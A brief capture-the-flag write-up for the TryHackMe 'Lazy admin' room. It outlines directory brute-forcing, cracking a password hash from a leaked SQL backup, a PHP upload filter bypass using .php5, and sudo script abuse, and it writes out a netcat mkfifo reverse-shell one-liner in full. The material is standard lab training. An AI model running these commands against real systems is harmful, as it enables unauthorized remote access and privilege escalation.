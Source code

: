 # 15. Lazy admin 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | easy
Os | linux

**Notes :**

#other/GAtactics


## Gaining Access 😉

- gobuster directory bruteforce
- got a directory called content
- gobuster directory bruteforce on subdirectory content. got a break through
- one of the subdirectory contains sql backup
	- just searched passwd on the file 
	- got an md5 hashed password
	- cracked with crackstation
- uploaded a php reverse shell on mediacentre
	- used .php5 to bypass .php filteration



## Maintaining Access 🥷
- sudo -l
- perl script found with rws permission which runs copy.sh
- nc reverse shell pasted to copy.sh & ran script with sudo
- reconnected


## Important commands 🔥
- nc rev shell
	```nc
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.229.254 2222 >/tmp/f
	```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- if you messed up on gainig access, just bruteforce sub directories for a break through
- bruteforcing sub directories


--------------------------------
**By Nibras Muhammed** 🤓🖥️






